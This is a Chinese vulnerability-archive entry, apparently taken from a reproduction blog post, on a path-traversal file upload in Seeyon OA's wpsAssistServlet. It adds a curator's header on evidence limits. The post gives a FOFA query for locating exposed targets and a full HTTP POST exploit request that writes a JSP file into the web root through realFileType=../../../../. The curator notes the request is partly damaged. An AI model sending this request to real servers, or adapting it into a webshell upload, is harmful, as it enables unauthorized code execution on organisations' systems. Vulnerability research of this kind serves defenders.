



# 致远OA wpsAssistServlet路径穿越上传

> 指纹字段校订（2026-10-04）：按原归档正文的明确平台标签及完整表达式恢复当前查询，旧误填或截取字段逐字保存在 `previous_*`；后文对此旧字段的诊断按当前字段阅读。仅经过本库保守语法与原字面核对，未在线运行查询，不把指纹命中视为漏洞存在。

## 条目说明

- 对象与具体问题：致远OA；wpsAssistServlet路径穿越上传
- 版本、配置及部署条件：影响段只产品，FOFA限定V8.0SP2，不等于完整范围；ApacheJetspeed路径
- 认证与权限前提：无cookie样本
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 与wpsAssistServlet其他报告同realFileType链；multipart name/filename缺失
- 01014.jsp与开头36011.jsp只是实例差异；修复仅泛称升级
- 资料工具须关注获取不算正文附POC，实际请求已提供但损坏

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/uWp4hULXtkpU4CwzAtZcxA)

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。

1. 致远 OA 简介
-----------

微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发

致远互联 oa 办公自动化软件系统, 实现企业审批 / 报销 / 门户 / 公文 / 文档 / 采购 / 费用等综合管理, 致远互联 oa 办公自动化软件系统, 满足企业一体化办公需求。

2. 漏洞描述
-------

致远 OA 互联新一代智慧型协同运营平台以中台的架构和技术、协同、业务、连接、数据的专 业能力，夯实协同运营中台的落地效果；以移动化、AI 智能推进前台的应用创新，实现企业轻量化、智能化业务场景，促进企业全过程管理能效，赋予企业协同工作和运营管理的新体验；在协同运营平台全面升级的基础上，V8.0 深耕大型企业管理模式、运营机制，进一步强化 “协同” 在管理中的价值，推动大中型企业、集团企业、国资以及高新技术企业的管理模式升级，帮助企业构筑全程、全域、全端的运营和服务能力，提升人员效率和组织绩效，赋能企业数字化、智能化发展。该系统存在任意文件上传漏洞。

CVE 编号:

CNNVD 编号:

CNVD 编号:

3. 影响版本
-------

致远互联 - OA

致远 OA 存在任意文件上传漏洞

4.fofa 查询语句
-----------

app="致远互联 - OA" && title="V8.0SP2"

5. 漏洞复现
-------

漏洞链接：https://127.0.0.1/seeyon/wpsAssistServlet?flag=save&realFileType=../../../../ApacheJetspeed/webapps/ROOT/36011.jsp&fileId=2

漏洞数据包：

```http
POST /seeyon/wpsAssistServlet?flag=save&realFileType=../../../../ApacheJetspeed/webapps/ROOT/01014.jsp&fileId=2 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 217
Content-Type: multipart/form-data; boundary=a4d7586ac9d50625dee11e86fa69bc71

--a4d7586ac9d50625dee11e86fa69bc71
Content-Disposition: form-data; 
Content-Type: application/vnd.ms-excel

<% out.println("215882935");%>  
--a4d7586ac9d50625dee11e86fa69bc71--


```

> 请求长度说明：原资料 Content-Length 为 217；保留原始标头；其数值未据实际请求体重新计算或验证。



拼接上传的文件路径：https://127.0.0.1/01014.jsp



6.POC&EXP
---------

关注公众号 南风漏洞复现文库 并回复 漏洞复现 66 即可获得该 POC 工具下载地址：


本期漏洞及往期漏洞的批量扫描 POC 及 POC 工具箱已经上传知识星球：南风网络安全



7. 整改意见
-------

打补丁或升级到最新版本

8. 往期回顾
-------

[深信服下一代防火墙 NGAF 存在任意文件读取漏洞 附 POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484384&idx=1&sn=72b750c75902d96b819197069afebc7c&chksm=974b8ee7a03c07f151c3e7b878e59eeee9dbcee518548f065c400ee1bf920c3002c6317ae41e&scene=21#wechat_redirect)  

[红帆 iOffice 存在任意文件读取漏洞 附 POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484373&idx=1&sn=809422b7802f1685b593a6d90a787072&chksm=974b8ed2a03c07c4b0a87332c97c26abe92e1d5372e61f32d0accf05cfac9b30d79aaa504636&scene=21#wechat_redirect)

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
